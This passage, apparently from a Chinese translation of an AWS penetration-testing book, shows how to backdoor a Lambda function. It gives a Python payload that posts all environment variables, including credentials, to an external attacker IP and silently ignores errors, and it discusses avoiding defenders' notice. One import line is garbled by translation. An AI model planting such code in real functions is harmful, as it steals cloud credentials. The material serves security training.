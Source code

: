 我们向`VulnerableFunction`添加了代码后的 VulnerableFunction 开头

这个载荷的唯一问题在于它假定我们可以查看此 Lambda 函数的执行日志，我们可能有或没有权限访问。 我们需要访问 CloudWatch 日志或能够使用测试事件运行函数，以便我们可以在 Web 控制台中查看输出。 现在我们会说我们没有 CloudWatch 访问权限，所以我们将使用测试事件。 下一个问题是，我们可能缺少围绕此 Lambda 函数的整个上下文。 我们不一定知道函数何时被调用是有意义的，函数何时会出错，它被调用的频率如何，如果在其正常触发器之外调用将会产生什么影响，以及许多其他问题。

要解决这个问题，我们可以选择忽略它，并针对函数运行测试事件，而不担心后果（这不是一个好主意，除非你非常确定它不会破坏环境中的任何东西，并且不会吸引防御者的不必要注意），或者我们可以修改我们的有效载荷来外泄凭证，有点像本章的第一节。这可能是最安全的方法，因为我们可以向函数添加我们的恶意有效载荷，在我们的外部服务器上设置监听器，然后只需等待 Lambda 函数被正常调用。为此，我们可以导入`subprocess`并像以前一样使用`curl`，但更简单的方法是使用 Python 的`requests`库。`Requests`不会自动包含在 Lambda 函数可用的默认库中，但是`botocore`会，而`botocore`依赖于`requests`库，因此我们可以使用一个很酷的技巧来导入和使用`requests`。我们使用以下`import`语句而不是`import requests`：

```

从 botocore.vendored 导入请求

```

现在，我们可以正常访问`requests`库了。因此，按照本章早期所做的类似方法，我们只需将所有环境变量发送到我们的外部服务器即可发送 HTTP `POST`请求。我们还可以在 Lambda 函数内部运行 AWS API 调用并外泄输出，这在技术上会更安全，因为 API 调用将来自预期的相同 IP 地址，而不是我们的外部攻击 IP；但是，拉取环境变量更加灵活，并且随着时间的推移需要对函数进行的修改较少，因此我们选择了这种方式。以下有效载荷将执行此操作（在这里我们假装`1.1.1.1`是我们外部服务器的 IP）：

```

try:
    import os
    from botocore.vendored import requests
    requests.post('http://1.1.1.1', json=os.environ.copy(), timeout=0.01)
except:
    pass
```

它使用`requests`库发送一个 HTTP `POST`请求，其中包含使用 OS 库获取的环境变量，并且将超时设置为`0.01`，以便发送请求；代码立即执行，而不是等待任何响应并导致 Lambda 函数本身超时。一旦将此有效载荷添加到目标 Lambda 函数中，我们只需等待函数通过正常手段被调用，最终我们将获得凭证发送到我们的服务器：

![](img/286eb121-c4d3-46c6-ba28-336429a9dc39.png)
